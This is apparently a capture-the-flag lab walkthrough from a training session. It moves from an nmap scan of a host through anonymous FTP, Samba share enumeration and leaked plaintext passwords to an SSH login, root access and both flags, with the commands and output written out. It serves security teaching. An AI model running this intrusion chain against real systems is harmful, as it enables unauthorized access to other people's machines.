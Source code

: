 ### Session : Attacking Common Services and Network Exploitation II

![logo](assets/image.png)

First we ran a nmap scan to see the open ports in the machine:
```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ nmap -sC -sV 50.116.12.218
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-03 22:07 +0530
Nmap scan report for 50-116-12-218.ip.linodeusercontent.com (50.116.12.218)
Host is up (0.26s latency).
Not shown: 976 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
21/tcp    open     ftp             vsftpd 3.0.5
|_ftp-bounce: bounce working!
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             105 Jan 03 16:35 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:175.157.18.223
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:c3:b3:6d:3d:78:76:59:23:d1:d1:a7:c5:4c:6c:d4 (RSA)
|   256 a4:4b:16:e4:3e:eb:ac:a3:59:02:27:60:9a:7f:d9:33 (ECDSA)
|_  256 7e:6b:50:88:61:06:df:0f:c3:cc:1a:d6:b4:7f:1f:26 (ED25519)
25/tcp    open     smtp?
|_smtp-commands: Couldn't establish connection on port 25
139/tcp   open     netbios-ssn?
445/tcp   open     netbios-ssn     Samba smbd 4.6.2
```

We were able to see that port 21 is running `vsftpd 3.0.5` and `anonymous` login is enabled and there is a `note.txt` detected by nmap. continuing our reading, we were able to see that port 445 is open and it is running `Samba smbd 4.6.2`.

We first connected to ftp using the command `ftp {machine_ip}` and logged in as the `anonymous` user. Since `anonymous` login is enabled, we can just press `Enter` or type any password we want for the `password` and login.

After logging in, we were able to see a file named `note.txt`. So we downloaded it to our local machine using the `get` command and exited the `ftp` service.

![Image1](assets/image1.png)
We then used the `cat` command to read the contents inside the file and was able to see this note:
```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ cat note.txt 
Why are you keep forgetting your Samba share credentials chami? use the password 'sambaisfun' to login..
```

We were able to see a username called `chami` and a password called `sambaisfun`.
### Samba
We then enumerated the available samba shares for the user `Chami` using the below command and was able to see a share named `LNBTI`.
```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ smbclient -L //50.116.12.218 -U chami
WARNING: no network interfaces found
Password for [WORKGROUP\chami]:

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
LNBTI           Disk      
IPC$            IPC       IPC Service (localhost server (Samba, Ubuntu))

```

We then connected to the smb share `LNBTI` as the user `chami` using the below command:
```
smbclient //50.116.12.218/LNBTI -U chami
```

We were then able to find a `password.txt` file. We used the `get` command again and downloaded the file to our local machine and exited the service.
![Image2](assets/image2.png)

We then again used the `cat` command to see the contents inside the file.
```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ cat password.txt 
Chami, I resetted your account password again to 'ilovechocolates' as you keep forgetting it. Don't lose it again. - Admin
```

We were able to get the password of the user `chami` . so we used ssh to login into chami using the below command :
```
ssh chami@{MACHINE_IP}
```

We were then able to grab the user flag:
```
chami@localhost:~$ cat user_flag.txt 
LNBTI{F1nally_Y0u_f0und_m3}
```

Looking more into the directory using the `ls` command, we were able to find a `mail.txt` and it had the password of the root user. (The root user in linux is like the Administrator user in Windows). 
```
chami@localhost:~$ cat mail.txt 
Chami, you know something? Our admin loves the batman series, i bruteforced his password and was able to find that his password is 'iLoveBatMan00##' . Pretty stupid isn't it? - Destiny
```

We were able to use the `su` command and switched into the `root` user and grab the root flag:
```
chami@localhost:~$ su root
Password: 
root@localhost:/home/chami# cd /root
root@localhost:~# ls
root_flag.txt
root@localhost:~# cat root_flag.txt 
LNBTI{CTF_CLUB_RULES_at_ROOT!}
```

Optional : We can use ssh to login into the `root` user too by using the command :

```
ssh root@{MACHINE_IP}
```
